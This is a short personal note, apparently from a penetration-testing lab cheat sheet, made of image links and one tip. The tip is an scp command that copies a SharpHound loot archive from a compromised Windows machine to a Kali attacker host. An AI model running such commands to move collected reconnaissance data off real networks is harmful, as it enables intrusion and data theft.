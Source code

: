 
![image](https://user-images.githubusercontent.com/35967437/200789579-46b8f70f-dc5b-4fa2-b489-52b6d6a7c04c.png)

SCP from windows machine back to kali for things like transfering Sharphound loot - scp .\20221121055045_loot.zip kali@10.8.7.84:/home/sh.t
xt
